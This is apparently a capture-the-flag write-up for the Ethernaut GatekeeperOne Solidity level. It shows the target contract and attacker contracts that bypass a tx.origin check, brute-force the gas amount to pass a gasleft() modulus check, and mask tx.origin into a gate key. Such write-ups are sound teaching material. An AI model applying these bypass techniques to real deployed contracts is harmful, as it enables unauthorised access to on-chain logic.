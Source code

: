 <img src="gatekeeper.png" alt="gatekeeper" />

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract GatekeeperOne {

  using SafeMath for uint256;
  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    require(gasleft().mod(8191) == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(tx.origin), "GatekeeperOne: invalid gateThree part three");
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

<hr />

# Hack

Gate 1:
Passing the gateOne() is easy as its already done before. Using another contract to call the GateKeeperOne contract is enough to pass it.

Gate 2:
// SPDX-License-Identifier: MIT

pragma solidity ^0.6.0;

contract EntryGate {
    bool public entered = false;
    uint public perfectGas = 0;

    function enter(address _gateKeeperAddress) public {
        bytes8 key = bytes8(uint64(tx.origin)) & 0xFFFFFFFF0000FFFF;
        (bool success,) = _gateKeeperAddress.call{gas: 10000}(abi.encodeWithSignature("enter(bytes8)", key));
        require(entered);
    }
}
```

```
// SPDX-License-Identifier: MIT

pragma solidity ^0.6.0;

contract EntryGate {
    bool public entered = false;
    uint public perfectGas = 0;

    function enter(address _gateKeeperAddress) public {
        bytes8 key = bytes8(uint64(tx.origin)) & 0xFFFFFFFF0000FFFF;
        bool success = false;
        uint startGas = 8191 * 3 + 190;
        for (uint i = startGas; i < startGas + 122; i++) {
            (success,) = _gateKeeperAddress.call{gas: i}(abi.encodeWithSignature("enter(bytes8)", key));
            if (success) {
                entered = success;
                perfectGas = i;
                break;
            }
        }
        require(entered);
    }
}
```

For this Gate 2, hit and trial method should be applied and with the help of debugging it can be passed.

Initially i passed 10000 as gas as a test to check how much gas is used until it reverts at gateTwo(). Using the Remix debugger tool, we can can check how much gas was used until gasleft() by scrolling it until gasleft() execution is reached and we can get the remaining gas from the Step details on the Remix debugger.

Gas Used = Gas Sent - Gas Remaining = 10000 - 9748 = 252

So, i used a range of 120 to search for the perfect gas which will unlock the gateTwo. I multiplied 8191 by a multiple of 3 and 3 here is random and we have to send enough gas for all other operations. So after passing gateKeeper address to the enter function of the EntryGate contract in Remix, the perfect gas was found to be 24827 in the Javascript VM and also i got the same gas while i tried it on Rinkeby Network.

Please note that the gas usage depends upon different factors such as compiler version, optimization etc. so it might be different according to what settings is used.


Gate 3:
We have the following requirements to pass the gate 3.

```
a) uint32(uint64(_gateKey)) == uint16(uint64(_gateKey))
b) uint32(uint64(_gateKey)) != uint64(_gateKey)
c) uint32(uint64(_gateKey)) == uint16(tx.origin)
```

For condition a) to hold true, _gateKey should have lower 16 bits mix of 0 and 1 and 16 bits 0 and other 32 bits can be 0 or combination of 0 and 1.

For condition b) to hold true, _gateKey should have lower 16 bits mix of 0 and 1 and 16 bits 0 to hold a) true but to hold b) true other 36 bits can be combination of 0 and 1 or only 1.

For condition c) to hold true, _gateKey has to satisfy a) and b) and also c) so the _gateKey value should be bytes8(uint64(tx.origin)) & 0xFFFFFFFF0000FFFF

This level is a bit harder than before levels but feels good to be able to complete. :D